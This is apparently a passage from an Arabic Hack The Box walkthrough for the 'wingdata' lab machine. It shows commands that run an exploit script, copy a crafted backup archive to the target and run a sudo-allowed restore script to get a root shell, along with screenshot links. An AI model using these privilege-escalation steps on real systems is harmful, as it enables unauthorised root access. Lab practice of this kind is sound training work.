# انسخه اولا داخل ملف وسميه اي اسم مثلا privsec.py
# ثم قم بتشغيل الملف
python3 privsec.py -u http://ftp.wingdata.htb
# قم بنسخ الملف الى السيرفر عن طريق الامر التالي :
scp backup_9999.tar wacky@10.129.49.142:/tmp/
#قم بتشغيل البرنامج النصي عبر مسار sudo المسموح به
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.p
يمكنك الان ان ترى نجاح خطواتك من خلال الامر - sudo su

قمنا ايضا اثناء الفحص بستكشاف بعض النطاقات الاخرى المشبوهة ولكن لم نعثر على اشياء مهمة


